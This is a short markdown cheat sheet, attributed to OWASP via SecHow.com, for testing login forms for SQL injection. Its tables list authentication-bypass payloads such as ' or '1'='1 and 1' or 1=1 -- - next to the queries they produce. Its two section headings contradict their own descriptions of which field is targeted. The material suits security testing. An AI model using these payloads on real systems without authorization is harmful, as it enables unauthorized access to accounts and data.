 # Login Form SQL Injection Testing
Below is the cheat sheet provided by OWASP from SecHow.com. This can be used to test a username or password for simple SQL injection vulnerabilities.
## Password Injection
Below is a few simple tests that we can do to attempt SQL injection on the **username** value being sent to the server.

| Username | Password | SQL Query |
|----------|----------|-----------|
| tom | tom	| SELECT * FROM users WHERE name='tom' and password='tom' |
| tom | ' or '1'='1 | SELECT * FROM users WHERE name='tom' and password='' or '1'='1' | 
| tom | ' or 1='1 | SELECT * FROM users WHERE name='tom' and password='' or 1='1' |
| tom	| 1' or 1=1 -- - | SELECT * FROM users WHERE name='tom' and password='' or 1=1-- -' |
## Username Injection
Below is a few simple tests that we can do to attempt SQL injection on the **password** value being sent to the server.

| Username | Password | SQL Query |
|----------|----------|-----------|
| ' or '1'='1	| ' or '1'='1	| SELECT * FROM users WHERE name='' or '1'='1' and password='' or '1'='1' |
| ' or ' 1=1	| ' or ' 1=1	| SELECT * FROM users WHERE name='' or ' 1=1' and password='' or ' 1=1' |
| 1' or 1=1 -- -	| blah	| SELECT * FROM users WHERE name='1' or 1=1 -- -' and password='blah' |

